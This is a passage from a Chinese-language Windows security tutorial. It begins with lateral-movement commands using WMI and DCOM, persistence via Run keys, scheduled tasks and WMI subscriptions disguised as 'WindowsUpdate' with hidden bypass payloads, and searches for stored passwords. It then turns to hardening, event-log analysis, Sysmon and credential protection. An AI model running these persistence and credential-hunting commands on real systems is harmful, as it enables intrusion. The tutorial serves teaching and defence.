    Get-Service | Where-Object Status -eq "Running"
} -Credential $cred

# 远程文件传输（通过会话）
$session = New-PSSession -ComputerName DC01
Copy-Item -Path "C:\local\tool.exe" -Destination "C:\temp\" -ToSession $session

# === WMI 远程执行 ===
# 创建远程进程
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -ep bypass -c 'IEX ...'" -ComputerName DC01

# 查询远程系统信息
Get-WmiObject Win32_OperatingSystem -ComputerName DC01

# === DCOM 远程执行 ===
# MMC20.Application DCOM 对象
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "DC01"))
$mmc.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c whoami > C:\temp\out.txt", "7")

# ShellWindows DCOM 对象
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "DC01"))
$item = $shell.Item()
$item.Document.Application.ShellExecute("cmd", "/c whoami", "C:\Windows\Temp", $null, 0)
```

##### 5.3.4 持久化技术

```powershell
# === 注册表启动项 ===
# 添加当前用户启动项
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell.exe -ep bypass -WindowStyle Hidden -c 'IEX ...'"

# 添加系统启动项（需要管理员）
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\Windows\Temp\payload.exe"

# === 计划任务 ===
$trigger = New-ScheduledTaskTrigger -AtLogon
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ep bypass -WindowStyle Hidden -c 'IEX ...'"
Register-ScheduledTask -TaskName "WindowsUpdateTask" -Trigger $trigger -Action $action -User "SYSTEM"

# === WMI 事件订阅（高级持久化） ===
# 创建永久事件订阅（重启后仍然生效）
$filterArgs = @{
    EventNamespace = 'root/cimv2'
    Name = 'WindowsUpdateFilter'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120"
    QueryLanguage = 'WQL'
}
$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $filterArgs

$consumerArgs = @{
    Name = 'WindowsUpdateConsumer'
    CommandLineTemplate = "powershell.exe -ep bypass -c 'IEX ...'"
}
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $consumerArgs

$bindingArgs = @{
    Filter = $filter
    Consumer = $consumer
}
Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $bindingArgs
```

---

### 六、Windows命令行核心技巧

#### 6.1 系统信息收集

```cmd
:: 系统基本信息
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

:: 查看系统架构
wmic os get osarchitecture

:: 查看已安装补丁
wmic qfe list brief

:: 查看启动的服务
wmic service where state="running" get name,pathname,startmode

:: 查看启动程序
wmic startup list full

:: 查看系统环境变量（可能暴露路径、密钥等）
set

:: 查看计划任务
schtasks /query /fo LIST /v
```

#### 6.2 网络侦察

```cmd
:: 完整网络配置
ipconfig /all

:: DNS 缓存
ipconfig /displaydns

:: 活动连接和对应进程
netstat -ano | findstr ESTABLISHED

:: 路由表
route print

:: ARP 缓存（识别局域网主机）
arp -a

:: 查看防火墙配置
netsh advfirewall show allprofiles

:: 查看所有监听端口
netstat -an | findstr LISTENING

:: 查看 SMB 共享
net share

:: 查看域信息
net accounts
nltest /domain_trusts
```

#### 6.3 文件系统操作

```cmd
:: 递归搜索文件
dir /s /b C:\Users\*.txt
dir /s /b C:\Users\*.config
dir /s /b C:\Users\*.ini

:: 搜索文件内容（递归、不区分大小写）
findstr /si "password" C:\Users\*.txt C:\Users\*.config
findstr /spin "password" C:\Users\*.*

:: 使用 forfiles 批量操作
forfiles /p C:\Users /s /m *.log /d -30 /c "cmd /c echo @path @fdate @fsize"

:: 查看文件权限
icacls "C:\Program Files"

:: 修改文件权限
icacls "C:\sensitive" /grant "Users:(OI)(CI)R" /T
icacls "C:\sensitive" /inheritance:r /grant:r "Administrators:F"

:: 查看文件的 ADS（备用数据流，常用于隐藏数据）
dir /r C:\suspicious.txt
more < C:\suspicious.txt:hidden.txt
```

#### 6.4 注册表操作

```cmd
:: 查询自启动项（持久化检测）
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"
reg query "HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run"

:: 查询服务配置
reg query "HKLM\SYSTEM\CurrentControlSet\Services\WSearch" /v ImagePath

:: 全局搜索敏感关键词
reg query HKLM /f "password" /t REG_SZ /s
reg query HKLM /f "credential" /t REG_SZ /s

:: 导出注册表键
reg export "HKLM\SOFTWARE" C:\backup_software.reg /y

:: 添加注册表键
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Update" /d "C:\payload.exe" /f

:: 删除注册表键
reg delete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Update" /f
```

---

### 七、Windows安全配置加固

#### 7.1 组策略安全加固

组策略是 Windows 域环境中批量管理安全配置的核心机制。以下是最关键的安全策略设置。

**账户策略**：

| 策略项 | 推荐值 | 配置路径 |
|--------|--------|---------|
| 密码最小长度 | 14字符 | Computer Config > Windows Settings > Security Settings > Account Policies > Password Policy |
| 密码复杂性 | 启用 | 同上 |
| 密码最长使用期限 | 90天 | 同上 |
| 密码历史记录 | 24个 | 同上 |
| 账户锁定阈值 | 5次失败 | Account Policies > Account Lockout Policy |
| 锁定持续时间 | 30分钟 | 同上 |

**审核策略（Windows事件日志基础）**：

| 审核类别 | 推荐设置 | 关键事件ID |
|---------|---------|-----------|
| 登录/注销 | 成功+失败 | 4624, 4625, 4634, 4647 |
| 账户管理 | 成功+失败 | 4720, 4722, 4724, 4728, 4732 |
| 权限使用 | 成功+失败 | 4672, 4673, 4674 |
| 进程跟踪 | 成功 | 4688, 4689 |
| 策略更改 | 成功+失败 | 4719, 4739 |
| 系统事件 | 成功+失败 | 4608, 4616, 4621 |

**安全选项关键配置**：

```powershell
# 查看当前安全选项配置
secedit /export /cfg C:\temp\security_policy.cfg

# 关键安全选项（在组策略中配置）：
# - 交互式登录: 不显示最后的用户名 -> 已启用
# - 交互式登录: 无需按 Ctrl+Alt+Del -> 已禁用
# - 网络访问: 不允许 SAM 账户的匿名枚举 -> 已启用
# - 网络访问: 不允许 SAM 账户和共享的匿名枚举 -> 已启用
# - 网络安全: LAN Manager 身份验证级别 -> 仅发送 NTLMv2 响应
# - 网络安全: 不要在下次更改密码时存储 LAN Manager 哈希值 -> 已启用
```

#### 7.2 服务安全加固

服务安全是 Windows 加固的重要环节。配置不当的服务可以成为提权入口。

```powershell
# 检查以 SYSTEM 身份运行的非系统服务
Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "System32|SysWOW64"
} | Select-Object Name, PathName, StartMode

# 检查未引用的服务路径（Unquoted Service Path）
# 如果路径包含空格且未加引号，攻击者可以在路径中间插入恶意程序
# 例如: C:\Program Files\My Service\service.exe
# 攻击者可在 C:\Program.exe 放置恶意程序
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -and $_.PathName -notmatch '^"' -and $_.PathName -match '\s'
} | Select-Object Name, PathName, StartName

# 修复未引用路径
sc config "ServiceName" binPath= "\"C:\Program Files\My Service\service.exe\""

# 检查服务二进制文件的权限（Users组是否有写权限）
Get-WmiObject Win32_Service | ForEach-Object {
    $path = $_.PathName -replace '^"([^"]+)".*','$1' -replace '^(\S+).*','$1'
    if (Test-Path $path) {
        $acl = Get-Acl $path
        $usersWrite = $acl.Access | Where-Object {
            $_.IdentityReference -match "Users|Everyone|Authenticated Users" -and
            $_.FileSystemRights -match "Write|FullControl|Modify"
        }
        if ($usersWrite) {
            [PSCustomObject]@{
                Service = $_.Name
                Path = $path
                WritableBy = $usersWrite.IdentityReference
            }
        }
    }
}
```

#### 7.3 防火墙配置

```powershell
# 查看防火墙状态
Get-NetFirewallProfile | Select-Object Name, Enabled

# 启用所有配置文件的防火墙
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True

# 默认入站阻止，出站允许
Set-NetFirewallProfile -DefaultInboundAction Block -DefaultOutboundAction Allow

# 添加允许规则（使用 PowerShell 现代语法）
New-NetFirewallRule -DisplayName "Allow SSH" -Direction Inbound -Protocol TCP -LocalPort 22 -Action Allow

# 阻止特定程序出站
New-NetFirewallRule -DisplayName "Block Malware" -Direction Outbound -Program "C:\temp\suspicious.exe" -Action Block

# 查看所有防火墙规则
Get-NetFirewallRule | Select-Object DisplayName, Direction, Action, Enabled | Sort-Object DisplayName

# 导出防火墙配置
netsh advfirewall export "C:\firewall-backup.wfw"
```

#### 7.4 防暴力破解配置

```powershell
# 使用 netsh 设置连接速率限制（Windows 10+）
netsh advfirewall firewall add rule name="RDP Brute Force Protection" ^
    dir=in action=allow protocol=tcp localport=3389 ^
    security=authenticated ^
    edge=yes action=allow

# 配置账户锁定策略（本地安全策略）
net accounts /lockoutthreshold:5
net accounts /lockoutduration:30
net accounts /lockoutwindow:30

# 配置密码策略
net accounts /minpwlen:14
net accounts /maxpwage:90
net accounts /uniquepw:24
```

---

### 八、Windows日志分析与威胁检测

#### 8.1 事件日志体系

Windows 事件日志是安全检测和事后取证的基础数据源。理解日志的组织方式和关键事件 ID 是蓝队的基本功。

**核心日志通道**：

| 日志通道 | 路径 | 内容 | 默认启用 |
|---------|------|------|---------|
| System | System.evtx | 系统事件（服务启动/停止、驱动加载） | 是 |
| Application | Application.evtx | 应用程序事件 | 是 |
| Security | Security.evtx | 安全审核事件 | 是（需配置审核策略） |
| Sysmon | Microsoft-Windows-Sysmon/Operational | 进程、网络、注册表等深度监控 | 需安装 Sysmon |
| PowerShell | Microsoft-Windows-PowerShell/Operational | PowerShell 执行日志 | 需配置 |
| WMI-Activity | Microsoft-Windows-WMI-Activity/Operational | WMI 操作 | 是 |
| TaskScheduler | Microsoft-Windows-TaskScheduler/Operational | 计划任务操作 | 是 |

**日志文件位置**：

```cmd
:: 事件日志存储目录
C:\Windows\System32\winevt\Logs\

:: 常用日志文件
Security.evtx           -- 安全审核（最重要的日志）
System.evtx             -- 系统事件
Application.evtx        -- 应用事件
Microsoft-Windows-Sysmon%4Operational.evtx  -- Sysmon 日志
Microsoft-Windows-PowerShell%4Operational.evtx  -- PowerShell 日志
```

#### 8.2 关键安全事件ID

##### 认证与登录事件

| Event ID | 事件 | 关键字段 | 检测意义 |
|----------|------|---------|---------|
| 4624 | 登录成功 | LogonType, TargetUserName, IpAddress | 正常/异常登录识别 |
| 4625 | 登录失败 | Status, SubStatus, IpAddress | 暴力破解检测 |
| 4634 | 注销 | — | 会话时长分析 |
| 4648 | 显式凭据登录 | TargetServerName, ProcessName | 横向移动检测 |
| 4672 | 特权分配 | SubjectUserName, PrivilegeList | 提权监控 |
| 4768 | TGT 请求 | TargetUserName, IpAddress | Kerberos 活动监控 |
| 4769 | TGS 请求 | ServiceName, IpAddress | Kerberoasting 检测 |
| 4771 | Kerberos 预认证失败 | TargetUserName, IpAddress | 暴力破解检测 |

**LogonType 详解**：

| LogonType | 含义 | 正常/异常 |
|-----------|------|----------|
| 2 | 交互式登录（本地键盘/屏幕） | 通常正常 |
| 3 | 网络登录（SMB、net use 等） | 需关注异常来源 |
| 4 | 批处理登录（计划任务） | 需验证任务合法性 |
| 5 | 服务登录 | 需验证服务配置 |
| 7 | 解锁 | 通常正常 |
| 8 | 显式凭据（runas） | 需关注异常使用 |
| 9 | 新凭据（RunAs with /netonly） | 横向移动指标 |
| 10 | 远程桌面 | 需关注异常来源 |
| 11 | 缓存凭据登录 | 通常正常 |

##### 进程与执行事件

| Event ID | 事件 | 关键字段 | 检测意义 |
|----------|------|---------|---------|
| 4688 | 进程创建 | NewProcessName, ParentProcessName, CommandLine | 恶意进程检测 |
| 4689 | 进程退出 | — | 进程生命周期 |
| 4697 | 服务安装 | ServiceName, ImagePath | 持久化检测 |

##### 账户管理事件

| Event ID | 事件 | 检测意义 |
|----------|------|---------|
| 4720 | 用户账户创建 | 后门账户检测 |
| 4722 | 用户账户启用 | 被禁用账户的重新激活 |
| 4724 | 密码重置 | 非授权密码重置 |
| 4728/4732/4756 | 组成员添加 | 权限提升检测 |
| 4738 | 用户账户更改 | 属性修改监控 |

#### 8.3 日志分析实战

```powershell
# === 登录事件分析 ===

# 查看最近的登录事件（排除系统账户）
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4624} -MaxEvents 50 |
    Where-Object { $_.Properties[5].Value -notmatch 'SYSTEM|ANONYMOUS|DWM-|LOCAL SERVICE|NETWORK SERVICE' } |
    Select-Object TimeCreated,
        @{N='User';E={$_.Properties[5].Value}},
        @{N='LogonType';E={$_.Properties[8].Value}},
        @{N='SourceIP';E={$_.Properties[18].Value}},
        @{N='Process';E={$_.Properties[17].Value}} |
    Format-Table -AutoSize

# 检测暴力破解（短时间内大量登录失败）
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4625} -MaxEvents 500 |
    Group-Object { $_.Properties[19].Value } |
    Where-Object { $_.Count -ge 10 } |
    Select-Object Count, Name |
    Sort-Object Count -Descending

# === 进程分析 ===

# 查看进程创建事件（需要启用进程跟踪审核）
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4688} -MaxEvents 100 |
    Select-Object TimeCreated,
        @{N='Process';E={$_.Properties[5].Value}},
        @{N='CommandLine';E={$_.Properties[8].Value}},
        @{N='ParentProcess';E={$_.Properties[13].Value}},
        @{N='User';E={$_.Properties[1].Value}} |
    Where-Object { $_.Process -notmatch 'svchost|csrss|lsass|services' }

# === 账户变更监控 ===

# 检测新增用户
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4720} |
    Select-Object TimeCreated, @{N='NewUser';E={$_.Properties[0].Value}}, @{N='CreatedBy';E={$_.Properties[4].Value}}

# 检测组成员变更（重点监控管理员组）
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4728,4732,4756} |
    Select-Object TimeCreated, Id,
        @{N='Group';E={$_.Properties[2].Value}},
        @{N='Member';E={$_.Properties[0].Value}},
        @{N='ChangedBy';E={$_.Properties[6].Value}}
```

#### 8.4 Sysmon 深度监控

Sysmon 是微软提供的系统监控工具，提供比默认审核策略更详细的事件记录。它是蓝队检测的核心组件。

```xml
<!-- Sysmon 基础配置文件 (sysmon-config.xml) -->
<Sysmon schemaversion="4.90">
    <HashAlgorithms>sha256,imphash</HashAlgorithms>
    <EventFiltering>
        <!-- 记录所有进程创建 -->
        <RuleGroup name="Process" groupRelation="or">
            <ProcessCreate onmatch="exclude">
                <!-- 排除系统进程减少噪音 -->
                <Image condition="is">C:\Windows\System32\svchost.exe</Image>
            </ProcessCreate>
        </RuleGroup>

        <!-- 记录网络连接 -->
        <RuleGroup name="Network" groupRelation="or">
            <NetworkConnect onmatch="include">
                <DestinationPort condition="is">4444</DestinationPort>
                <DestinationPort condition="is">5555</DestinationPort>
                <DestinationPort condition="is">8080</DestinationPort>
            </NetworkConnect>
        </RuleGroup>

        <!-- 记录注册表修改 -->
        <RuleGroup name="Registry" groupRelation="or">
            <RegistryEvent onmatch="include">
            <TargetObject condition="contains">CurrentVersion\Run</TargetObject>
            <TargetObject condition="contains">CurrentVersion\RunOnce</TargetObject>
            </RegistryEvent>
        </RuleGroup>

        <!-- 记录文件创建 -->
        <RuleGroup name="File" groupRelation="or">
            <FileCreate onmatch="include">
                <TargetFilename condition="contains">C:\Users</TargetFilename>
                <TargetFilename condition="end with">.exe</TargetFilename>
                <TargetFilename condition="end with">.dll</TargetFilename>
                <TargetFilename condition="end with">.ps1</TargetFilename>
            </FileCreate>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

```powershell
# 安装 Sysmon
sysmon64.exe -accepteula -i sysmon-config.xml

# 更新配置
sysmon64.exe -c sysmon-config.xml

# 查询 Sysmon 事件
# Event ID 1: 进程创建
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=1} -MaxEvents 50 |
    Select-Object TimeCreated, @{N='Image';E={$_.Properties[1].Value}}, @{N='CommandLine';E={$_.Properties[10].Value}}, @{N='ParentImage';E={$_.Properties[20].Value}}

# Event ID 3: 网络连接
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=3} -MaxEvents 50 |
    Select-Object TimeCreated, @{N='Image';E={$_.Properties[1].Value}}, @{N='DestIP';E={$_.Properties[3].Value}}, @{N='DestPort';E={$_.Properties[5].Value}}
```

---

### 九、Windows安全检测工具链

#### 9.1 内置检测工具

| 工具 | 用途 | 命令示例 |
|------|------|---------|
| Task Manager | 进程查看 | `taskmgr` |
| Resource Monitor | 资源监控 | `resmon` |
| Process Explorer | 深度进程分析 | 需下载 Sysinternals |
| Autoruns | 启动项分析 | 需下载 Sysinternals |
| netstat | 网络连接 | `netstat -ano` |
| WMIC | 系统信息查询 | `wmic process list full` |

#### 9.2 Sysinternals 工具套件

```powershell
# Process Explorer - 高级进程管理器
# 可查看进程树、DLL 列表、句柄、网络连接
procexp.exe /accepteula

# Autoruns - 最全面的自启动项分析工具
# 覆盖注册表、计划任务、服务、驱动、浏览器插件等所有持久化点
autoruns.exe /accepteula

# TCPView - 实时网络连接监控
tcpview.exe

# Sysmon - 深度系统事件监控
sysmon64.exe -accepteula -i config.xml

# Procmon - 实时文件/注册表/网络/进程活动监控
procmon.exe /accepteula /backingfile C:\capture.pml
```

#### 9.3 第三方安全工具

| 工具 | 类型 | 用途 |
|------|------|------|
| **Velociraptor** | EDR/取证 | 端点监控、远程取证、威胁猎捕 |
| **OSQuery** | 查询引擎 | 用 SQL 查询系统状态 |
| **YARA** | 规则引擎 | 基于规则的恶意软件检测 |
| **Sigma** | 检测规则 | 通用 SIEM 检测规则格式 |
| **ELK Stack** | SIEM | 集中式日志分析 |
| **Splunk** | SIEM | 企业级日志分析 |
| **Chainsaw** | 日志分析 | 快速 Windows 事件日志分析 |

```powershell
# OSQuery 示例查询
# 查看所有活跃网络连接
osqueryi "SELECT * FROM processes WHERE pid IN (SELECT pid FROM process_open_sockets WHERE state = 'ESTABLISHED');"

# 查看浏览器扩展
osqueryi "SELECT * FROM chrome_extensions;"
osqueryi "SELECT * FROM firefox_addons;"

# 查看自启动项
osqueryi "SELECT * FROM startup_items;"
```

---

### 十、常见安全误区与纠正

| 误区 | 真实情况 | 纠正措施 |
|------|---------|---------|
| "PowerShell 执行策略是安全边界" | 绕过极其简单，如 `-ep bypass` | 将其视为管理控制，配合 AMSI + 日志 |
| "UAC 等同于 Linux 的 sudo" | UAC 是可绕过的安全提示，不是权限边界 | 配置为最高级别 + 安全桌面 |
| "禁用 PowerShell 更安全" | PowerShell 5.0+ 有强大的日志能力，比 cmd 更易监控 | 启用日志而非禁用 |
| "NTLMv2 足够安全" | NTLM Relay 攻击可绕过 NTLMv2 | 迁移到 Kerberos + 启用 EPA 和 SMB 签名 |
| "Windows Defender 不够强" | Defender 在最新测试中表现优秀 | 启用 + 保持更新 + 配置 ASR 规则 |
| "关闭 UAC 可以简化管理" | 等同于让所有程序以管理员权限运行 | 保持 UAC 启用，使用自动化工具管理 |
| "服务账户密码不需要管理" | 服务账户常被遗忘，密码可能多年不变 | 定期轮换 + 使用 gMSA 托管服务账户 |
| "只需部署防病毒软件" | 单层防护远远不够 | 纵深防御：EDR + 日志 + 网络监控 + 策略 |

---

### 十一、安全加固检查清单

以下清单覆盖 Windows 系统安全加固的核心要点，可用于日常巡检或安全审计。

```mermaid
graph TD
    A["Windows 安全加固"] --> B["身份认证"]
    A --> C["访问控制"]
    A --> D["运行时防护"]
    A --> E["监控检测"]
    A --> F["网络防护"]

    B --> B1["强密码策略 ≥14位"]
    B --> B2["禁用 LM Hash"]
    B --> B3["启用 Kerberos 预认证"]
    B --> B4["配置账户锁定"]
    B --> B5["限制 NTLM 使用"]

    C --> C1["UAC 最高级别"]
    C --> C2["最小权限原则"]
    C --> C3["文件/注册表权限审计"]
    C --> C4["服务账户加固"]
    C --> C5["WDAC/AppLocker"]

    D --> D1["DEP AlwaysOn"]
    D --> D2["强制 ASLR"]
    D --> D3["启用 CFG"]
    D --> D4["Credential Guard"]
    D --> D5["BitLocker 加密"]

    E --> E1["启用审核策略"]
    E --> E2["部署 Sysmon"]
    E --> E3["PowerShell 日志"]
    E --> E4["集中日志收集"]
    E --> E5["配置告警规则"]

    F --> F1["防火墙默认阻止入站"]
    F --> F2["禁用不必要端口"]
    F --> F3["启用 SMB 签名"]
    F --> F4["RDP NLA"]
    F --> F5["网络分段"]

    style A fill:#1565c0,color:#fff
    style B fill:#e3f2fd
    style C fill:#fff3e0
    style D fill:#fce4ec
    style E fill:#f3e5f5
    style F fill:#e8f5e9
```



**快速加固命令（PowerShell）**：

```powershell
# 1. 启用所有关键日志
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
auditpol /set /category:"Account Management" /success:enable /failure:enable
auditpol /set /category:"Process Creation" /success:enable

# 2. 启用命令行参数记录
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" -Name "ProcessCreationIncludeCmdLine_Enabled" -Value 1

# 3. 启用 PowerShell 日志
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Name "EnableModuleLogging" -Value 1

# 4. 禁用 LM Hash 存储
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "NoLMHash" -Value 1

# 5. 启用防火墙
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True -DefaultInboundAction Block

# 6. 启用 RDP 网络级认证
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```

---

### 十二、进阶主题

#### 12.1 Credential Guard

Windows Credential Guard 使用基于虚拟化的安全（VBS）来隔离 LSASS 进程，将凭据存储在独立的虚拟机中，即使内核被攻破也无法提取凭据。

```powershell
# 检查 Credential Guard 状态
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard |
    Select-Object VirtualizationBasedSecurityStatus, SecurityServicesRunning

# 启用 Credential Guard（需要企业版 + UEFI + TPM）
# 通过组策略：Computer Configuration > Administrative Templates > System > Device Guard > Turn On Virtualization Based Security
# 或通过注册表：
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "LsaCfgFlags" /t REG_DWORD /d 1 /f
```

#### 12.2 受保护的用户安全组

Windows 8.1+ 引入了"Protected Users"安全组，该组成员的账户受到额外保护：
- 禁用 NTLM 认证
- 禁用 DES 和 RC4 加密
- 禁用 CredSSP 凭据缓存
- Kerberos TGT 有效期缩短到4小时

```powershell
# 将敏感账户加入 Protected Users 组
Add-ADGroupMember -Identity "Protected Users" -Members "Administrator"

# 验证
Get-ADGroupMember -Identity "Protected Users"
```

#### 12.3 LSA 保护（RunAsPPL）

启用 LSA 保护后，LSASS 进程作为 Protected Process Light (PPL) 运行，阻止非 PPL 进程读取其内存，防止 Mimikatz 等工具提取凭据。

```powershell
# 启用 LSA 保护
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "RunAsPPL" /t REG_DWORD /d 1 /f

# 验证
Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" | Select-Object RunAsPPL
```

**注意**：启用 LSA 保护需要重启系统。某些旧的安全工具可能无法在 PPL 模式下工作，需要先验证兼容性。
